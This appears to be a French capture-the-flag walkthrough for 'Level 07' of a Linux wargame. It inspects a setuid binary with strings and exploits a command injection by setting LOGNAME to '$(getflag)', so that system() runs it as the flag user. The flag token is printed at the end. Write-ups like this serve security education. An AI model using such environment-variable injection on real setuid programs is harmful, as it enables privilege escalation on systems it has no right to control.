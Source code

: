 # Level 07

Structure du home
```sh
$ ls -la
total 24
dr-x------ 1 level07 level07  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level07 level07  220 Apr  3  2012 .bash_logout
-r-x------ 1 level07 level07 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
-r-x------ 1 level07 level07  675 Apr  3  2012 .profile
```
On peut apercevoir un exécutable. Si on l'exécute il nous écrit seulement `level07`.

En tout premier avant de peu être le décompiler, on peut lancer `strings` dessus
```
$ strings ./level07
/lib/ld-linux.so.2
__gmon_start__
...
_IO_stdin_used
asprintf
getenv
system
...
__libc_start_main
...
LOGNAME
/bin/echo %s
...
```
Plein de choses intéressantes se montre à nous, comme les fonctions ou même les strings utilisés.
Comme les fonctions `getenv`, `system`, `asprintf`. Ce qui voudrait dire que l'exécutable fait appeler à une variable d'environnement, exécute peut-être `/bin/echo %s` et le pourcentage `%s` comme une valeur dynamique set via l'asprintf ?

Mettons nos infos au test:
- Dans un premier temps, le string `LOGNAME` est-elle la variable env?
- Et si nous changeons la variable.
- Grâce à la fonction system, on pourrait exécuter autre chose que `/bin/echo`
```sh
$ echo $LOGNAME
level07
$ export LOGNAME=getflag
$ ./level07
getflag
$ export LOGNAME='$(getflag)'
$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
